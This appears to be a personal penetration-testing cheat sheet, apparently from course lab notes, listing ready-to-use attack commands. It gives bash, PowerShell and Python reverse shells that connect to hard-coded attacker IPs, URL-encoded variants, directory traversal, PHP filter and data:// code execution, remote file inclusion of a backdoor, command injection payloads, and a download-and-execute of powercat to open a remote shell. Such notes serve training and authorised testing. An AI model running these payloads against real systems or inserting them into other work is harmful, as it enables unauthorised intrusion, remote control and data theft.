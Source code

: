  - Logging in with ssh key
```ssh -i <keyname> -p 2222 <username>@website.com```

 - Error: Permissions 0644 for '/home/kali/key-name' are too open. 
 - Fix permissions this command
 ```chmod 400 <keyname> ```

- Directory traversal with URL encoding
```../ = %2e%2e/```

- Bash reverse shell
```
bash -c "bash -i >& /dev/tcp/192.168.45.227/4444 0>&1"
```
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1
```

-  URL encoded bash reverse shell 
```
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```

- Netcat listener for reverse shells
```nc -nlvp <port number>```

- Windows Directory traversal(need double slashes to escape)
```curl --path-as-is http://192.168.233.193/meteor/index.php?page=C:\\xampp\\apache\\logs\\access.log```

- PHP filter to get contents of a file
```curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php```

- Data filter for code execution
```curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-r');?>"```

- Python webserver in the directory of the file that is needed
```python3 -m http.server 80```

- Curl for RFI (webserver needs to be open in the directory that the file resides in)
```sh
curl "http://mountaindesserts.com/meteor/index.php?page=http://<my-ip-addr>/simple-backdoor.php$cmd=ls"
```

- Powershell reverse shell
```powershell
$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.227",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

# Get bytes
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

# Encode to base64
$EncodedText =[Convert]::ToBase64String($Bytes)
```

- curl execute powershell base64 encoded reverse shell one liner
```sh
curl http://192.168.233.189/meteor/uploads/simple-backdoor.pHP?cmd=powershell%20-enc%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgB...
AoACkAfQA7ACQAYwBsAGkAZQBuAHQALgBDAGwAbwBzAGUAKAApAA==\n
```

- Command Injection with parameter 
```sh
curl -X POST --data 'Archive=git%3Bipconfig' http://192.168.233.189:8000/archive

```

- Check for Powershell or 'CMD' in command execution
```sh
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

# URL encoded with Curl
curl -X POST --data 'Archive=git%3B%28dir%202%3E%261%20%2A%60%7Cecho%20CMD%29%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell%0A' http://192.168.233.189:8000/archive

```

- Create powershell reverse shell with powercat.ps1
```sh
# powercat.ps1 
cp /usr/share/powershell-empire/empire/server/data/module_source/management/powercat.ps1 .

# host python webserver
python3 -m http.server 80

# Powershell reverse shell 
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.227/powercat.ps1");powercat -c 192.168.45.227 -p 4444 -e powershell

# URL encoded with Curl
curl -X POST --data 'Archive=git%3BIEX%20%28New-Object%20System.Net.Webclient%29.DownloadString%28%22http%3A%2F%2F192.168.45.227%2Fpowercat.ps1%22%29%3Bpowercat%20-c%20192.168.45.227%20-p%204444%20-e%20powershell' http://192.168.233.189:8000/archive
```

- Python Reverse shell
```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.227",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

